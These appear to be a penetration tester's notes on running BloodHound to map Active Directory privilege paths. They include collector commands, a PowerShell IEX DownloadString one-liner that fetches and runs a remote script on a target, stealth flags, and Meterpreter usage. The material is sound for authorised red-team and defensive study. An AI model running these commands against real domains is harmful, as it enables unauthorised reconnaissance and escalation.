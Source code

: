 # [BloodHound](https://github.com/BloodHoundAD/BloodHound)

> BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment.

---

## Setup

**Attack machine**: [[neo4j#Run via Docker|Start Neo4j]]

**Attack machine (must be GUI)**: Start Bloodhound

```bash
cd /opt/bloodhound/BloodHound-linux-x64
./BloodHound --no-sandbox # no sudo required
```

Login using your neo4j credentials (in LastPass).

---

## Collection

Somehow, someway, execute a BloodHound collector (located in **/opt/bloodhound/collectors**), either from the attacker's machine with domain user credentials or on a domain-joined machine.

**Attacker Machine, Python collector**:

```bash
bloodhound-python -d $DOMAIN -u $USERNAME -p $PASSWORD -c All -ns $DOMAIN_DNS_SERVER_IP
```

**Target Machine, PowerShell collector**:

Source the BloodHound collector script.

```powershell
. .\SharpHound.ps1 # Locally
IEX (New-Object Net.Webclient).DownloadString("$HTTP_URL_TO_SCRIPT"); $BLOODHOUND_COMMAND_HERE # Remotely
```

Execute the collector script.

```powershell
Invoke-BloodHound -CollectionMethod All -Domain $DOMAIN -Stealth # HYDRA.test
```

**Target Machine, C# Collector**:

```powershell
.\SharpHound.exe --CollectionMethod All --Domain $DOMAIN --Stealth --NoSaveCache # HYDRA.test
```

**Meterpreter/PowerShell on Target Machine**:

```powershell
meterpreter > use powershell
meterpreter > powershell_import $PATH_TO_SHARPHOUND_PS1
meterpreter > powershell_execute "Invoke-BloodHound -CollectionMethod All -Domain $DOMAIN -Stealth -NoSaveCache" # HYDRA.test
```

---

## Ingest

Transfer the resultant ZIP archive to the attacker machine upload it to the BloodHound web UI, and explore!

---

## Analysis Process

After you've ingested all of the data, go to the search bar, type in the name of the principal you've already compromised, and hit enter. Right-click the resultant node and select `Mark Principal as Owned`. Do this for each principal you've compromised.

Afterwards, go through each of the prebuilt analytic queries except for `Shortest Paths to High Value Targets`.

If nothing stands out, select the query `Shortest Paths to High Value Targets` and see if there's anything interesting.

Afterwards, search for each of the owned principals. Right-click the node and investigate the `Node Info` attributes. Pay special attention to `Outbound Control Objects`.

---

## Discover Kerberoastable Users

Use the prebuilt query `List all Kerberoastable Users`.

---

## Generate a Graph of a Foreign Domain

```powershell
Invoke-BloodHound -CollectionMethod $COLLECTION_METHOD -Domain $FOREIGN_DOMAIN
```

Enumerates via LDAP, so must be executed in the security context of a user who can issue an LDAP query to `$FOREIGN_DOMAIN`'s primary domain controller.
